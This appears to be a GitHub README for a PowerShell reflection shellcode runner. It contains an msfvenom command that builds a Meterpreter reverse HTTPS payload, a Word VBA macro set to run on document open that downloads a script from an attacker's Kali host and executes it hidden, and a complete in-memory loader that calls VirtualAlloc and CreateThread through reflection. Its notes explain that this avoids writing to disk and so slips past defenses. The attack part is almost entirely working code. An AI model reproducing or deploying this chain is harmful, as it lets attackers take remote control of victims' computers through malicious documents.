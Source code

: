 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  	msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		***<comment>Method wrapper to create a delegate type: accepts two arguments: the function arguments of the Win32 API given as an array and its return type. The first block creates the custom assembly and defines the module and type 
  			inside of it. The second block of code sets up the constructor, and the third sets up the invoke method. Finally, the constructor is invoked and the delegate type is returned to the caller.<comment>***

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		***<comment>Creating a custom assembly object in memory and Setting the access mode of the assembly to Run; Creating a custom module inside the assembly<comment>***
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}

		***<comment>Resolving and calling VirtualAlloc through reflection<comment>***
    
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 
  				0x40)
		
		[Byte[]] $buf = generated shell code
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

  		***<comment>Resolving and calling CreateThread through reflection<comment>***
    
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

  		***<comment>Resolving and calling WaitForSingleObject through reflection<comment>***
    
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
  

  It executed three primary steps related to the Win32 APIs. It located the function, specified argument data types, and invoked the function.
  There are two primary ways to locate functions in unmanaged dynamic link libraries. Our original technique relied on the Add-Type and DllImport keywords (or the Declare keyword in VBA). However, Add-Type calls the csc compiler, which writes to disk. 
  We must avoid this if we want to operate completely in-memory.

  Alternatively, Here we used a technique known as dynamic lookup, which is commonly used by low-level languages like C. By taking this path, we hope to create the .NET assembly in memory instead of writing code and compiling it.

  To perform a dynamic lookup of function addresses, the operating system provides two special Win32 APIs called GetModuleHandle and GetProcAddress
  GetModuleHandle obtains a handle to the specified DLL, which is actually the memory address of the DLL. To find the address of a specific function, we'll pass the DLL handle and the function name to GetProcAddress, which will return the function 
  address. We can use these functions to locate any API, but we must invoke them without using Add-Type.

  Since we cannot create any new assemblies, we'll try to locate existing assemblies that we can reuse. It stands to reason that we could search the preloaded assemblies for the presence of GetModuleHandle and GetProcAddress.
  However, there is an issue that these methods are only meant to be used internally by the .NET code. This blocks us from calling them directly from PowerShell or C#.
  To solve this issue, we have to develop a way that allows us to call it indirectly.

  The first step is to obtain a reference to these functions. To do that, we must first obtain a reference to the System.dll assembly using the GetType method.This reference to the System.dll assembly will allow us to subsequently locate the 
  GetModuleHandle and GetProcAddress methods inside it.

  Using GetType to obtain a reference to the System.dll assembly at runtime is an example of the Reflection technique. This is a very powerful feature that allows us to dynamically obtain references to objects that are otherwise private or internal.

  
  
		
		  
